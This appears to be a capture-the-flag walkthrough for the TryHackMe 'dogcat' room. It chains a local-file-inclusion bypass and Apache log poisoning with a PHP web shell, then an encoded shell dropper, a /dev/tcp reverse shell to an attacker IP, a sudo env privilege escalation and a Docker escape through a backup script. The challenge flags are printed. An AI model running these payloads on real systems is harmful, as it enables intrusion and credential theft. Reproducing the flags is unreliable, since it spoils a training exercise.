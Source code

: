 # dogcat

1. Recon reveals 22 and 80.
2. Going to the site (after running a dirb) reveals a simple site where you can view dog or cat images, via a query string `?view=`. Obvious LFI challenge
3. `php://filter/dog/convert.base64-encode/resource=dog` gets the base64 encoding of the dog and cat pages, which select a random image. Unfortunately, there is a whitelist: if dog or cat are not in the view url, it rejects it with 'only dogs or cats allowed'.
4. After a lot of messing about, I found this works (I don't know why. PHP ¯\_(ツ)_/¯): `http://10.10.177.45/?view=php://filter/dog/convert.base64-encode/resource=index`. It returns an error and the base64 of index :D

    This revealed that index is:

    ```php
    <?php
        function containsStr($str, $substr) {
            return strpos($str, $substr) !== false;
        }
        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
        if(isset($_GET['view'])) {
            if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                echo 'Here you go!';
                include $_GET['view'] . $ext;
            } else {
                echo 'Sorry, only dogs or cats are allowed.';
            }
        }
    ?>
    ```

    Of note, I can specify the extension. So for example this works and gets me the passwd file: `?view=php://filter/dog/convert.base64-encode/resource=../../../../etc/passwd&ext=`

    Next step, how to exploit this? The passwd file revealed no users but www-data. A look at this blog (https://resources.infosecinstitute.com/local-file-inclusion-code-execution/) provided a possible option: utilising the apache log.

5. I used netcat to inject a php shell into the access logs: 

    ```
    root@kali:~# nc 10.10.148.44 80
    GET /<?php system($_GET['cmd']); ?>
    HTTP/1.1 400 Bad Request
    Date: Sun, 03 May 2020 02:20:10 GMT
    Server: Apache/2.4.38 (Debian)
    Content-Length: 302
    Connection: close
    Content-Type: text/html; charset=iso-8859-1

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>400 Bad Request</title>
    </head><body>
    <h1>Bad Request</h1>
    <p>Your browser sent a request that this server could not understand.<br />
    </p>
    <hr>
    <address>Apache/2.4.38 (Debian) Server at 172.17.0.2 Port 80</address>
    </body></html>
    ```

6. I tested this by running `http://10.10.148.44/?view=php://filter/dog/resource=/var/log/apache2/access.log&ext=&cmd=cat%20/etc/passwd` which printed the contents of passwd to the screen (buried in the logs). Nice.

7. By using the script below as the cmd query string value, I created a `shell.php` in the web directory:

    `echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php`

8. This wasn't working right to get a reverse shell, but I was able to use it to create a reverse shell via encoding the reverse shell from here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

    `echo <base64 encoded> | base64 -d > reverse.php`

9. With a reverse shell on the machine, I was able to `cat flag.php` which was in the root of the web, giving me the first flag `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

10. Sudo -l revealed:

```
Matching Defaults entries for www-data on 79ac254749ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 79ac254749ea:
    (root) NOPASSWD: /usr/bin/env
```

This allowed me to run `sudo /usr/bin/env /bin/sh` to get a root shell.

11. The third flag was in `/root/flag3.txt`: `THM{D1ff3r3nt_3nv1ronments_874112}`. Still need to find 2 and 4.

12. Browsing into /var/www I found flag2: `THM{LF1_t0_RC3_aec3fb}`. The flag file was `/var/www/flag2_QMW7JvaY2LvK.txt`

I was stuck at this point. Tried all sorts of things including grepping the file system, but couldn't find the fourth flag. I found an /opt/backups/backup.tar, but its contents were just the current system, including the flags I had already found. I also found a .dockerenv and dockerfile, file, but didn't make the connection. The answer was that this is all running inside a docker container, and I needed to escape it. The backup.tar file was next to a backup.sh file, presumably run from outside.

13. Adding onto /opt/backups/backup.sh the following `bash -i >& /dev/tcp/10.10.78.44/4443 0>&1` via `echo >>` as root, I set up a reverse listener on my host and waited. Soon I got a `root@dogcat`.

14. ls -lA revealed flag4.txt, and catting that got me `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

